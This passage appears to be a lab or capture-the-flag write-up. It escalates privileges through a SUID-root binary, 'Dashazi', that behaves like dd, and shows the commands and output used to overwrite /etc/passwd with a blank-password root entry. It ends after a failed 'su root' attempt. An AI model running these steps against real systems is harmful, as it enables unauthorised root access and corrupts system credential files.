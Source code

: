The `rws` permission (`-rwsr-sr-x`) indicates that `Dashazi` runs with the privileges of its owner, which is `root`.


2. **Analyzing `Dashazi`:**
The `Dashazi` binary was copied to the attacker's machine using `scp` for analysis.

```shellscript
scp umzyyds@192.168.1.30:/home/umzyyds/Dashazi ./
```

Running `./Dashazi --help` revealed that it behaves exactly like the `dd` command, a utility for converting and copying files.

```shellscript
./Dashazi --help
Usage: ./Dashazi [OPERAND]...  or:  ./Dashazi OPTION
Copy a file, converting and formatting according to the operands.
...
if=FILE         read from FILE instead of stdin
of=FILE         write to FILE instead of stdout
```

This is a critical vulnerability. Since `Dashazi` runs as root and has `if=FILE` and `of=FILE` options, it can be used to read from and write to any file on the system, including sensitive files like `/etc/passwd`.


3. **Root Access via `/etc/passwd` Manipulation:**
The strategy was to modify the `/etc/passwd` file to gain root access.

1. **Step 1: Create a temporary `passwd` file with a blank root password.**
First, a `passwd` file was created with a blank password for the `root` user.

```shellscript
umzyyds@Umz:~$ echo 'root::0:0:root:/root:/bin/bash' > passwd
```


2. **Step 2: Overwrite `/etc/passwd` with the modified file.**
The `Dashazi` binary was then used to overwrite the `/etc/passwd` file with the newly created `passwd` file.

```shellscript
umzyyds@Umz:~$ ./Dashazi if=passwd of=/etc/passwd
0+1 records in
0+1 records out
31 bytes copied, 0.000647042 s, 47.9 kB/s
```


3. **Step 3: Attempt `su root` (fails with blank password).**
Attempting `su root` with a blank password failed, as the system still required authentication. This is expected behavior for `su` with blank passwords in some Linux configurations.

```shellscript
umzyyds@Umz:~$ su root
Password:
su: Authentication failure
```
